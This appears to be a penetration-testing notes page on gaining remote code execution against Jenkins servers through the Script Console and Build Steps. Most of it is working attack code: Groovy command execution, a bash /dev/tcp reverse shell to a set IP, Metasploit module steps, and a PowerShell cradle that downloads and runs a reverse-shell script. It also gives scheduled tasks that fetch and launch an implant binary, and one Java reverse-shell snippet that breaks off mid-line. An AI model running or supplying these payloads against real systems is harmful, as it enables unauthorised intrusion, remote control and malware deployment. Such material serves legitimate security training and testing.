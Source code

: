 # Jenkins

Jenkins is a **Java-based open-source automation server**, designed to support continuous integration by automatically building and testing software whenever changes are made. By default, Jenkins includes a lightweight Java-based web server called **Winstone** on the `8080` port, but it can also be deployed as a **Web Application Archive (WAR)** file to run inside a Java servlet container like Apache Tomcat, Jetty, or GlassFish. It uses port `5000` to connect with slave nodes for distributed tasks. When Jenkins run as a Windows service, it typically uses Winstone and runs under as `SYSTEM`.&#x20;

For authentication, Jenkins supports multiple backends including its local user database, LDAP, Unix user accounts, or a servlet container. It can also be configured to allow unauthenticated access. In its default state, **Jenkins stores credentials in its internal database** and does not permit users to create their own accounts.

## RCE

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) (`/script`), which allows us to run arbitrary Groovy scripts within the Jenkins controller runtime and can be abused to run operating system commands on the underlying server. Groovy is an object-oriented Java-compatible language. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

{% tabs %}
{% tab title="RCE" %}
Run arbitrary system commands (similar to a webshell):

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
{% endtab %}

{% tab title="RevShell" %}
Send a reverse shell:

{% code overflow="wrap" %}
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
Metasploit's [jenkins\_script\_console](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module:

```bash
> use exploit/multi/http/jenkins_script_console
> show targets
> set TARGET < target-id >
> show options
> exploit
```
{% endtab %}

{% tab title="Windows Targets" %}
Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host:

{% code overflow="wrap" %}
```groovy
String host="<attacker-IP>";
int port=<attacker-port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.ge
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Build Step

If the compromised user is does not have eleveated privileges, but is able to configure projects, we can still get RCE by creating/modyfing a Build Step and passing an RCE command to be executed:

<figure><img src="../../.gitbook/assets/jenkins_build_step_1.png" alt="" width="563"><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# Payload
powershell.exe iex (iwr http://172.16.99.37/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.99.37 -Port 443
```
{% endcode %}

<figure><img src="../../.gitbook/assets/jenkins_revshell.png" alt=""><figcaption></figcaption></figure>

This can be also leveraged using scheduled tasks (each command on a different step):

{% code overflow="wrap" %}
```powershell
# Create scheduled task to download the binary
schtasks /create /tn "DownloadBinLoader" /tr "c:\windows\system32\cmd.exe /c start /b curl http://<http-server-IP>/BinLoader.exe -o c:\windows\temp\binloader.exe" /sc ONSTART

# Create scheduled task to execute the implant
schtasks /create /tn "RunBinLoader" /tr "c:\windows\system32\cmd.exe /c start /b c:\windows\temp\binloader.exe 172.16.100.37 80 dcorp-ci_tcp.bin" /sc ONSTART

# Run the first task
schtasks /run /tn "DownloadBinLoader"

# Run the second task
schtasks /run /tn "RunBinLoader
```
{% endcode %}
